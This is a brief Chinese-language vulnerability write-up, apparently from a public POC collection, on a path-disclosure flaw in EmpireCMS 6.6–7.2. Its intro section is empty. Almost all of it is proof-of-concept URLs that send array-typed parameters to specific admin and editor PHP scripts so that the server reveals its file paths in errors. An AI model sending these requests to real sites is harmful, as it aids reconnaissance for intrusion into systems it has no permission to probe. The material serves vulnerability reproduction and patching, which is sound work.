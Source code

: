# EmpireCMS 6.6-7.2 路径泄漏

## 一、漏洞简介

## 二、漏洞影响

EmpireCMS 6.6-7.2

## 三、复现过程

### POC :

> EmpireCMS 6.6 :

```
http://www.baidu.com/e/admin/tool/ShowPic.php?url[]=kongxin&pic_height[]=kongxin&pic_width[]=kongxin&picurl[]=kongxin& 

http://www.baidu.com/e/action/ListInfo.php?totalnum[]=kongxin&page[]=kongxin&myorder[]=kongxin&orderby[]=kongxin&andor[]=kongxin&ph[]=kongxin&tempid[]=kongxin&line[]=kongxin&endtime[]=kongxin&starttime[]=kongxin&ztid[]=kongxin&ttid[]=kongxin&classid[]=kongxin&mid[]=kongxin&

```

> EmpireCMS 7.0 :

```
http://www.baidu.com/e/admin/ecmseditor/infoeditor/epage/TranMore.php?InstanceName[]=kongxin&sinfo[]=kongxin&modtype[]=kongxin&infoid[]=kongxin&filepass[]=kongxin&classid[]=kongxin&showmod[]=kongxin&

```

> EmpireCMS 7.2 :

```
http://www.baidu.com/e/data/ecmseditor/infoeditor/epage/TranFile.php?filesize[]=kongxin&fname[]=kongxin&InstanceName[]=kongxin&filepass[]=kongxin&classid[]=kongxin&type[]=kongxin&showmod[]=kongxin&

```


